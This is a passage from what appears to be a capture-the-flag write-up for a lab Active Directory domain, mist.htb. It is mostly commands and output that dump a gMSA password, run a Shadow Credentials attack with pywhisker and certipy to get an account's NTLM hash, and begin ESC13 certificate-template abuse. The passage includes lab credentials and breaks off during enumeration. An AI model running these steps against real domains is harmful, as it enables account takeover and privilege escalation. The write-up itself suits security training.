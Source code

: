 ```bash
proxychains -q nxc ldap 192.168.100.100 -u 'op_Sharon.Mullard' -p 'REDACTED' --gmsa
SMB         192.168.100.100 445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:mist.htb) (signing:True) (SMBv1:False)
LDAPS       192.168.100.100 636    DC01             [+] mist.htb\op_Sharon.Mullard:REDACTED 
LDAPS       192.168.100.100 636    DC01             [*] Getting GMSA Passwords
LDAPS       192.168.100.100 636    DC01             Account: svc_ca$              NTLM: e2[...]d5
```
## ShadowCreds Attack

Ok now perform ShadowCreds attack :

```bash
proxychains -q python3 pywhisker.py -d "DC01.mist.htb" -u 'svc_ca$' -H :e2[...]d5 --target 'svc_cabackup' --action "add"  --dc-ip 192.168.100.100 --use-ldaps
[*] Searching for the target account
[*] Target user found: CN=svc_cabackup,CN=Users,DC=mist,DC=htb
[*] Generating certificate
[*] Certificate generated
[*] Generating KeyCredential
[*] KeyCredential generated with DeviceID: bd2ec770-b661-700b-4a92-642a57f5ea95
[*] Updating the msDS-KeyCredentialLink attribute of svc_cabackup
[+] Updated the msDS-KeyCredentialLink attribute of the target object
[+] Saved PFX (#PKCS12) certificate & key at path: We9ACgPN.pfx
[*] Must be used with password: aD9diG7PmWltJg1xQz28
[*] A TGT can now be obtained with https://github.com/dirkjanm/PKINITtools

certipy cert -pfx We9ACgPN.pfx  -password aD9diG7PmWltJg1xQz28 -export -out  svc_cabackup.pfx
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Writing PFX to 'svc_cabackup.pfx'

proxychains certipy auth -pfx  svc_cabackup.pfx -dc-ip 192.168.100.100 -domain mist.htb -username svc_cabackup

[*] Got hash for 'svc_cabackup@mist.htb': aad3b435b51404eeaad3b435b51404ee:c98[...]64
```
Ok nice test creds :

```bash
proxychains -q nxc ldap 192.168.100.100 -u 'svc_cabackup' -H 'c9[...]64' 
SMB         192.168.100.100 445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:mist.htb) (signing:True) (SMBv1:False)
LDAP        192.168.100.100 389    DC01             [+] mist.htb\svc_cabackup:c9[...]64
```
## ESC13 
Ok now we gonna abuse ESC13, for this we can use [this PR](https://github.com/ly4k/Certipy/pull/196)

```bash
proxychains -q python3 entry.py find -u "OP_SHARON.MULLARD" -p 'ImTiredOfThisJob:(' -dc-ip 192.168.100.100 -debug
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[+] Authenticating to LDAP server
[+] Bound to ldaps://192.168.100.100:636 - ssl
[+] Default path: DC=mist,DC=htb
[+] Configuration path: CN=Configuration,DC=mist,DC=htb
[*] Finding certificate templates
[*] Found 37 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 14 enabled certificate templates
[*] Finding issuance policies
[*] Found 1 issuance policy
```